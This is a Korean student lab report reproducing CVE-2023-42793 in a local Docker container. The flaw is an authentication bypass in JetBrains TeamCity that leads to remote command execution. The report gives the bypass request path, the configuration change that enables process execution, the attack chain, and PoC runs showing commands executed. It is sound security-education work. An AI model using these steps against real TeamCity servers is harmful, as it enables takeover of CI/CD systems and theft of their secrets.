# JetBrains TeamCity 인증 우회 및 원격 명령 실행 분석 (CVE-2023-42793)


![화이트햇 스쿨 [BI]](images/whitehat_bi.png)
> 화이트햇 스쿨 컨테이너 보안 실무 과제
>
> 작성자 : 19반 박가흔(4680)

## I. 서론

- 이번 과제는 수업 시간에 배운 VM과 컨테이너의 차이를 기반으로 Docker을 통해 취약점이 발생한 환경을 이미지 & 컨테이너로 최대한 OS에 무관하게 재현(Reproduction) 하는것이 목적이다.
  - 정확히는 점유율이 높은 3대 상용 OS인 **Windows, Linux, macOS**에서 보안 취약점을 Docker로 빠르고 간단하게 재현하는 것이 목적이다.
  - 이를 위해 Docker의 Dockerfile, Docker Compose를 사용한다.
- 어떤 CVE를 대상으로 해도 문제가 없다. 아래는 가능한 목록들이다.
  - 원본 저장소인 https://github.com/vulhub/vulhub 에 존재하는 CVE 및 Docker 정보들
  - 누군가가 CVE를 찾고 이에 맞춰 Custom Image를 Build 해 둔 것
  - 심지어 kr-vulhub 저장소에 이전 교육생들이 기존에 작성된 내용을 그대로 Ctrl C & V 해도 인정된다.
    - 단, 이 Case와 더불어 누구나 올릴법한 CVE와 Docker 정보를 올리면 과제 점수는 받을 수 있어도 Merge는 받을 수 없다.
  - **주의할점은 기준이 자유로운 만큼 재현이 불가능하면 0점 처리될 수 있다는 것이다. 이 점을 유의해야한다.**
- 오늘은 JetBrains사의 TeamCity라는 CI/CD 프로그램 (서버) 에서 발생한 인증 우회 및 원격 명령 실행 취약점에 대해 다룰 예정입니다.

- **<u>과제를 하면서 공부를 위해 모르는 단어 및 학습한 내용을 보고서에 자세히 기술할 예정입니다. 또한 LLM으로 학습한 내용의 경우 [LLM] 이라는 태그를 붙이겠습니다. 취약점 재현을 먼저 확인하시려는 경우 취약점 재현 항목을 먼저 참고해주세요.</u>**


### CI/CD란?

- 
- 앞에서 언급했듯이 오늘 다룰 것은 TeamCity라는 CI/CD 서버에서 발생한 취약점이다. **그런데 CI/CD가 뭘까?**
- 사실 이 단어는 개발자라면 알아야 할 덕목 중 하나인데 공부하기가 귀찮아서 계속 미루고만 있었다.
  - 그래서 이번에 공부를 해보려고 한다.
- CI/CD
  - **CI/CD**란 애플리케이션 **개발부터 배포까지 모든 단계를 자동화**하여 효율적이고 빠르게 사용자에게 빈번히 배포할 수 있도록 하는 개념이다.
- CI
  - 우선 CI/CD 앞에 붙은 CI가 뭔지 알아보자.
  - **CI**는 지속적인 통합(Continuous Integration)이라는 의미이다.
  - 작업한 코드를 주기적으로 빌드 -> 테스트 -> 병합하는 과정을 의미한다. 
- CD
  - 문맥에 따라 지속적인 제공(Continuous Delivery)과 지속적인 배포(Continuous Deployment)라는 2개의 뜻으로 불린다.
  - 지속적인 제공(Continuous Delivery)
    - 수동 배포를 의미한다.
  - 지속적인 배포(Continuous Deployment)
    - 자동 배포를 의미한다.
- https://www.youtube.com/watch?v=0Emq5FypiMM
  - 더 자세한 내용은 여기에 잘 나와있으니 참고하자.
  - *CI/CD는 쉽게 요약해서 개발 과정을 자동화한 일련의 과정(프로세스) 들이라고 보면 되겠다.*
  - CI/CD의 대표적인 예시는 GitHub Actions, GitLab CI/CD, Jenkins, 오늘 알아볼 TeamCity등이 있다.
  - 더 자세하게는 개발하면서 CI/CD 과정을 직접 실습해보면서 공부하는게 와닿을 거 같아서 여기까지만!


### TeamCity란?


- 이제 TeamCity가 뭔지에 대해서도 알아보자.
- TeamCity는 소스코드 빌드, 테스트, 패키징, Docker 이미지 생성, 운영 환경 배포 등을 자동화하는 **CI/CD** 서버이다.
  - 이번에 과제 하면서 취약점이 있다길레 처음알았다.
  - CI/CD 시장내에서는 LLM을 통해 알아본 결과 Github Actions, Jenkins가 시장 절반을 꽉 잡고 있는 1군이라면 TeamCity는 2군 정도 되는 거 같다. 기업용으로 아주 비주류도, 주류도 아닌 중견이나 틈새시장의 강자 느낌?
  - CI/CD 서비스의 특성상 TeamCity 서버가 장악되면 단순히 해당 웹 서버 하나가 침해되는 수준을 넘어 소스코드 저장소, 빌드 스크립트, 배포 token, Docker registry, 운영 서버 접근 정보까지 크게 영향을 받을 수 있다.


### CI/CD 서버의 공격 위험성

CI/CD가 뭔지 이해했으면 바로 와닿겠지만, CI/CD 서버는 일반적인 웹 애플리케이션보다 침해 영향이 크다. 빌드와 배포를 자동화하려면 서버가 Git 저장소, Docker registry, artifact 저장소, 클라우드 계정, 배포 서버 등과 연결되어야 하기 때문이다. 이 과정에서 SSH key, API key, 배포 token, 환경 변수, secret 파일 등이 CI/CD 서버에 저장되거나 빌드 과정에서 사용될 수 있으며 이는 CI/CD 서버가 높은 권한들을 다루게 된다는 것이다.

따라서 TeamCity에서 원격 명령 실행이 가능해지면 공격자는 다음과 같은 행위를 시도할 수 있다.

- 소스코드와 내부 저장소 접근
- 빌드 스크립트 변조
- 악성 빌드 산출물 생성
- Docker 이미지 또는 배포 패키지 변조
- 배포 token, secret, private key 탈취
- 운영 서버 또는 내부망으로 추가 이동

이 취약점이 특히 위험한 이유는 인증이 필요하지 않다는 점이다. 공격자는 계정 탈취나 피싱 없이도 취약한 TeamCity 서버에 직접 접근하여 관리자 권한 확보를 시도할 수 있다.


### CVE란? [LLM]

- 과제를 하면서 보안 관련해서 CVE라는 용어를 많이 보았다.
  - 이 용어가 보안 업계에서 많이 쓰이는 거 같은데도 제대로 의미를 모르고 쓰고 있는 거 같아서 추가로 공부한 내용을 정리해보았다.

- Common Vulnerabilities and Exposures 의 약어이다.
  - 한국어로 직역하면 공통 취약점 및 노출이다.
- 가장 직관적으로 비유하자면 CVE는 세상에 공개된 *특정 보안 취약점에 부여하는* 세계 공통 '**사건번호(고유번호)**' 또는 '**주민등록번호**'이다.
- CVE는 취약점을 직접 공격하는 코드(공격기법)가 아니다.
  - 우리가 지금 똑같은 취약점을 이야기하고 있다는 것을 전 세계 사람들이 명확히 식별하고 소통할 수 있도록 만든 고유 식별자(CVE ID)와 기본 정보(CVE Record)의 표준 체계이다.
- **Q. 왜 이런 고유 번호가 필요한가?**
  - "윈도우에 원격으로 침입할 수 있는 버그가 있대요!"라고 두리뭉술하게 말하면 보안 담당자는 어떤 윈도우 버전인지, 어떤 기능의 문제인지, 어떻게 고쳐야 할지 전혀 알 수 없다.
  - 하지만 "CVE-2021-34527 취약점을 조치하세요"라고 말하면 명확해진다. Microsoft, 백신 프로그램, 보안 연구자, 시스템 관리자 모두가 이 번호를 통해 '정확히 같은 문제'를 인지하고 일관되게 대응할 수 있다.
- **Q. CVE 번호는 어떻게 읽는가?**
  - ex) CVE-2024-9956
  - CVE
    - CVE 체계의 식별자
  - 2024
    - 취약점 ID가 할당되었거나 처음 공개된 연도 *(발견된 연도와 다를 수 있음)*
  - 9956
    - 해당 연도에 부여된 취약점을 구분하기 위한 식별용 숫자 *(단순 순차 번호가 아니며, 예약되거나 비순차적일 수 있음)*
  - 즉, "2024년과 연결되어 할당된 고유번호 9956을 가진 취약점"으로 이해하는 것이 가장 정확하다.
- Q. CVE 기록에는 어떤 정보가 담기는가?
  - CVE는 단순한 이름표가 아니다. 번호(CVE ID)와 함께 다음의 기본 정보(CVE Record)를 제공한다.
  - 취약점에 대한 **간단한 설명**
  - 영향을 받는 **소프트웨어/하드웨어 제품과 버전**
  - 제조사 공지, 보안 패치 링크 등 **참고 자료**
- Q. 이 번호는 누가 만들고 관리하는가?
  - 단일 기관이 독단적으로 관리하는 것이 아니라, 전 세계가 참여하는 **분산형 국제 표준 체계**이다.
    - 아래 여러 기관들이 참여해 관리해 나간다.
    - **CISA (미국 국토안보부 산하 기관):** 프로그램 후원 및 지원
    - **MITRE:** CVE 프로그램 사무국 역할 수행
    - **CNA (CVE Numbering Authority):** 전 세계의 제조사나 보안 기관들로 구성되며, 각자의 담당 범위에서 CVE ID를 할당하고 기록을 게시함


### CVE와 다른 용어 구분하기 [LLM]

- 보안을 공부하다 보면 CVE와 헷갈리는 용어들이 많다. 햇갈리지 말고 아래의 표대로 잘 구분해서 이해하자.

| **용어**    | **쉽게 말하면**        | **역할 / 예시**                                              |
| ----------- | ---------------------- | ------------------------------------------------------------ |
| **CVE**     | 취약점 **사건번호**    | **특정 제품의 특정 취약점** 자체 (예: `CVE-2026-12345`)      |
| **CWE**     | 취약점 **원인·유형**   | 특정 취약점이 왜 발생했는지 그 **분류** (예: `CWE-89` SQL 인젝션) |
| **CVSS**    | 취약점 **심각도 점수** | 해당 취약점이 기술적으로 **얼마나 위험한지 평가한 점수** (예: `9.8` Critical) |
| **PoC**     | 취약점 **검증 코드**   | 이 취약점이 진짜로 작동함을 보여주는 **간단한 맛보기 코드**  |
| **Exploit** | 취약점 **공격 무기**   | 취약점을 악용해 실제로 해킹을 수행하는 **본격적인 공격 방법·코드** |
| **Patch**   | 취약점 **치료제**      | 제조사에서 배포하는 **보안 업데이트**                        |
- PoC는 Proof of Concept의 약자로 한국어로는 '개념 증명' 이다.
  - 보안 분야에서 말하는 '개념'이란 "여기를 이런 식으로 찌르면 시스템이 뚫릴 것 같다"는 이론적인 Idea를 뜻하는데,  말로만 해킹이 가능하다고 하면 제조사나 다른 사람들이 진짜인지 바로 믿기 어렵다.
  - 그래서 "내 말이 맞지? 이론이 아니라 진짜로 뚫리는지 보여줄게"라며, 실제로 해당 취약점을 통해 시스템에 침투하거나 에러를 일으키는 모습을 증명하기 위해 만든 짧고 핵심적인 코드가 바로 PoC(개념 증명)이다.
  - 새로운 제품을 만들기 전에 핵심 기능만 구현해 보는 '프로토타입'이나, 게임의 '데모 버전'과 같은 역할이라고 생각하면 이해하기 쉽다.
  - **이번 과제에서도 파이썬으로 짧게 만든 poc.py 라는게 그 역할을 한다.**


## II. 본론

### 취약점 정보 및 요약

| 항목 | 내용 |
| --- | --- |
| CVE 번호 | CVE-2023-42793 |
| 대상 제품 | JetBrains TeamCity On-Premises |
| 취약 버전 | TeamCity 2023.05.4 이전 버전 |
| 실습 버전 | TeamCity 2023.05.3 |
| 취약 유형 | Authentication Bypass, Remote Code Execution |
| CVSS | 9.8 Critical |
| 공격 조건 | 취약한 TeamCity 웹 서비스에 네트워크 접근 가능 |
| 주요 영향 | 인증 없이 관리자 API token 생성, 설정 변경, 서버 명령 실행 |

- 이번에 Docker 환경으로 재현할 **CVE-2023-42793**은 JetBrains TeamCity On-Premises에서 발생한 인증 우회 취약점이다.
- 취약한 TeamCity 서버에 HTTP(S)로 접근할 수 있는 공격자는 정상 계정 없이도 관리자 권한의 API token을 생성할 수 있다.
- 공격자는 생성한 token을 이용해 서버 설정을 변경한 뒤 원격 명령 실행(RCE)까지 이어갈 수 있다.

본 실습에서는 Docker로 TeamCity 2023.05.3 환경을 구성하고, 인증 우회를 통해 API token을 생성한 뒤 debug process API를 활성화하여 컨테이너 내부에서 명령이 실행되는지 확인하였다.


### 취약점 발생 이유

TeamCity는 HTTP 요청을 처리할 때 request interceptor를 사용하여 인증 여부를 검사한다. 그런데 취약한 버전에서는 `/RPC2`로 끝나는 일부 요청 경로가 인증 전처리 대상에서 제외될 수 있었다. 이로 인해 특정 REST API 요청이 인증 검증을 거치지 않고 처리되는 문제가 발생한다.

공격자는 이 특성을 이용해 사용자 token 생성 API 뒤에 `RPC2`를 붙여 요청한다.

```text
POST /app/rest/users/id:1/tokens/RPC2
```

위 요청에서 `id:1`은 기본 관리자 계정을 가리키는 locator로 사용될 수 있다. 요청이 성공하면 공격자는 관리자 사용자에 대한 API token을 획득한다. 이후 이 token을 `Authorization: Bearer <token>` 형태로 사용하면 TeamCity 관리 기능에 접근할 수 있다.

본 실습 PoC는 생성한 token으로 TeamCity의 `internal.properties` 설정에 다음 값을 추가한다.

```text
rest.debug.processes.enable=true
```

이 설정이 활성화되면 TeamCity의 debug process API를 통해 서버에서 프로세스를 실행할 수 있다. 결과적으로 인증 우회가 관리자 token 생성으로 이어지고, 관리자 token이 다시 서버 명령 실행으로 이어진다.

- 이해를 돕기 위한 한 줄 설명
  - URL 끝에 `/RPC2`를 붙여 인증을 우회한 뒤 관리자 API 토큰을 새로 생성하고, 그 토큰으로 서버에서 임의 명령까지 실행하는 취약점이다.


### 공격 흐름

실습에서 사용한 공격 흐름은 다음과 같다.

1. 취약한 TeamCity 서버가 준비될 때까지 `/login.html` 요청으로 상태를 확인한다.
2. 인증 없이 `/app/rest/users/id:1/tokens/RPC2`를 호출하여 관리자 API token을 생성한다.
3. 생성한 token으로 `config/internal.properties`에 `rest.debug.processes.enable=true`를 설정한다.
4. `/app/rest/debug/processes` API를 호출하여 지정한 명령을 실행한다.
5. 실습 후 생성한 API token을 삭제하여 테스트 흔적을 정리한다.

- PoC 코드 기준으로는 다음 함수들이 각 단계를 담당한다.
- PoC 코드를 실행하면 위 과정을 알아서 진행하므로 공격자의 경우엔 TeamCity 서버가 준비되어 제대로 된 응답을 하기까지 기다리는 것 정도만 하면 된다.

| 함수 | 역할 |
| --- | --- |
| `wait_for_target()` | TeamCity 로그인 페이지가 준비되었는지 확인 |
| `create_token()` | 인증 우회 요청으로 관리자 API token 생성 |
| `enable_debug_processes()` | debug process 기능 활성화 |
| `execute_command()` | `/bin/sh -c <command>` 형태로 명령 실행 |
| `delete_token()` | 생성한 token 삭제 |


### 환경 구성

실습 환경은 Docker Compose로 구성하였다. `Dockerfile`은 취약한 TeamCity 버전인 `vulhub/teamcity:2023.05.3` 이미지를 사용한다.

```dockerfile
FROM vulhub/teamcity:2023.05.3
```

`docker-compose.yml`에서는 TeamCity 웹 포트인 `8111`을 호스트에 노출한다. **포트가 겹친다면 다른 포트를 사용하자. 포트에 문제가 없다면 별 다르게 파일에서 건들것은 없다.**

```yaml
services:
  web:
    build:
      context: .
      dockerfile: Dockerfile
    container_name: whs-teamcity-cve-2023-42793
    platform: ${DOCKER_DEFAULT_PLATFORM:-linux/amd64}
    ports:
      - "8111:8111"
    environment:
      - TEAMCITY_SERVER_OPTS=-Dteamcity.startup.maintenance=false -Dteamcity.firstStart.setupAdmin.enabled=false
```


### 취약점 재현

```bash
$ docker compose up -d
```

다음 명령으로 한 번에 실습 환경을 다운로드 및 실행한다. TeamCity는 Java 기반 애플리케이션이고 대부분 Jetbrains 사의 프로그램이 그렇듯 무겁다. 따라서 초기 구동에 꽤나 많은 시간이 걸릴 수 있다. 

- ```Ryzen 7 5700X3D & 32GB RAM``` 을 기준으로는 약 1분 20초
- ```Macbook Air 13``` 을 기준으로는 다운로드 및 구동까지 약 5분이 걸렸다.


```text
http://127.0.0.1:8111
```


서버가 준비되면 다음 주소에서 로그인 페이지를 확인할 수 있다. 반드시 직접 접속해서 로그인 화면이 뜨는지 확인해야 제대로 취약점을 재현할 수 있다.


```bash
$ python3 poc.py http://127.0.0.1:8111
```

위 명령은 기본 PoC를 실행하는 명령이다. 별도 명령을 지정하지 않으면 기본값으로 `id` 명령을 실행한다.


```bash
 uv run poc.py
[+] Target: http://127.0.0.1:8111
[+] Command: id
[+] Token creation HTTP status: 200
[+] API token created through authentication bypass
[+] Debug process enable HTTP status: 200
[+] Command execution HTTP status: 200
[+] Response preview:
StdOut:uid=1000(tcuser) gid=1000(tcuser) groups=1000(tcuser)

StdErr: 
Exit code: 0
Time: 39ms
[+] Cleanup token HTTP status: 204
[+] Done
```

실행했을 때 다음과 같이 200 status code를 받으면 문제가 없다는 것이다.




만약 **Status Code 400** 에러가 발생한다면, 이는 TeamCity와의 통신이 원활하지 않음을 의미한다. 이 경우 이전에 설정한 localhost의 포트 번호(여기선 8111)로 정상적인 접속이 가능한지, 그리고 대상 컨테이너가 제대로 실행 중인지 먼저 확인해야 한다. 통신 상태가 불량하면 취약점 재현에 실패할 확률이 높다.

**단, 첫 시도에서 id 명령어를 전송했을 때 400 에러가 뜨더라도 poc.py를 다시 실행하면 정상적으로 작동하는 경우도 빈번하므로, 스크립트를 여러 번 반복해서 실행해 보길 권장한다.** (이런 케이스는 실제 검증에 문제가 없다.) 하지만 여러 번 시도했음에도 계속해서 Status Code 400 에러가 발생한다면, <u>이는 일시적인 오류가 아니라 대상 서버와의 통신 자체가 근본적으로 이루어지지 않고 있다는 뜻이므로 네트워크 설정이나 컨테이너 상태를 처음부터 다시 점검</u>해야 한다.


```bash
python3 poc.py http://127.0.0.1:8111 "touch /tmp/teamcity-cve-2023-42793-success"
```

위 명령어는 실질적인 해킹 공격을 수행하는 PoC 실행 코드이다. 스크립트의 두 번째 인자로 `touch /tmp/...` 명령을 전달하여, 타겟 TeamCity 서버에게 특정 이름의 빈 파일을 생성하라는 지시를 내린다. 이를 통해 원격에서 임의의 명령이 실행되는지(RCE) 테스트하게 된다.


```bash
docker compose exec web ls -al /tmp/teamcity-cve-2023-42793-success
```

공격이 실제로 성공했는지 확인하기 위해, 위 명령어를 사용하여 Docker 컨테이너 내부를 직접 조회한다. 만약 해당 경로에 파일이 존재한다면, 외부에서 조작한 `touch` 명령이 TeamCity 서버 내부에서 정상적으로 작동했음을 의미하게 된다. 


```bash
docker compose exec web ls -al /tmp/teamcity-cve-2023-42793-success
-rw-r----- 1 tcuser tcuser 0 Jul  2 20:47 /tmp/teamcity-cve-2023-42793-success
```

공격이 성공했다면 다음과 같이 빈 파일 1개가 조회된다.


```bash
docker compose exec web ls -al /tmp/teamcity-cve-2023-42793-success
ls: cannot access '/tmp/teamcity-cve-2023-42793-success': No such file or directory
exit status 2
```

공격이 실패했다면 파일이 조회되지 않는다.


### 재현중 문제 발생시

```bash
$ docker builder prune -f
```

재현을 하다가 뭔가 꼬이는 경우 컨테이너, 이미지 삭제를 하고 다시 docker compose up 했는데도 뭔가 안되면 해당 명령어로 관련 build cache를 모두 force하게 지운 후 다시 compose 명령어로 빌드 및 실행하면 재현이 제대로 이루어질 수 있다.


### 실행 결과

#### Windows

이제 플랫폼에 따라 PoC를 직접 실행한 결과를 정리해보겠다. 굳이 플랫폼 별로 하는 이유는 해당 공격의 재현률을 증명하기 위해서이다. 먼저 윈도우의 Docker Desktop 환경이다. 윈도우의 Docker Desktop은 내부적으로 WSL2를 통해 돌아가므로 실질적으로 리눅스 환경이다. (정확히는 리눅스 환경에 아주 가깝다.)



docker compose up -d 로 구동을 수행한다. 83초 정도 걸렸다.






localhost로 접속해서 로그인 창이 제대로 뜨는지 확인한다.




처음에 poc.py를 실행했는데 400 응답이 와서 poc.py를 재실행 하니 제대로 id 명령에 대한 응답이 왔다.




touch를 통해 RCE 취약점을 발생시켰고 실제로 파일이 생성되서 공격이 성공했음을 알 수 있다.


#### macOS

맥의 경우 맥북에서 테스트 해봤는데 인텔 맥과 애플 실리콘 맥이 있다. 내가 가지고 있는 맥북의 경우 신형 macOS라 애플 실리콘 맥밖에 테스트를 못해봤다.



cd를 통해 해당 CVE 폴더로 이동했다




docker compose up -d 명령어로 취약한 환경을 Set Up 해준다. 중간에 Docker Desktop을 안켜서 작동을 안했는데 윈도우나 Mac에서는 Docker Desktop을 켜줘야 가상환경과 Docker Engine이 구동되니 꼭 먼저 켜두고 Docker 명령어를 쳐주자.


